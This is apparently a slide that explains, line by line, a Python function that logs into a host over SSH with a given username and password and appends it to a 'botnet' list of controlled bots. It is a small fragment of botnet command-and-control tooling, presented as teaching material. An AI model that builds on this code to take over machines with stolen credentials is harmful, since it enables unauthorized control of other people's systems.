

def add_client(host, port, user, password):: Defines the add_client function to add a new bot.
session = connect_ssh(host, port, user, password): Connects to the SSH server.
if session:: Checks if the connection was successful.
client_info = {'host': host, 'port': port, 'user': user, 'password': password, 'session': session}: Creates a dictionary with the bot's details.
botnet.append(client_info): Adds the bot to the botnet list.
print(Fore.GREEN + "[+] Bot added successfully."): Prints a success message.
else:: If the connection failed.
print(Fore.RED + "[!] Failed to add bot. The bot will not be added to the botnet list."): Prints an error message.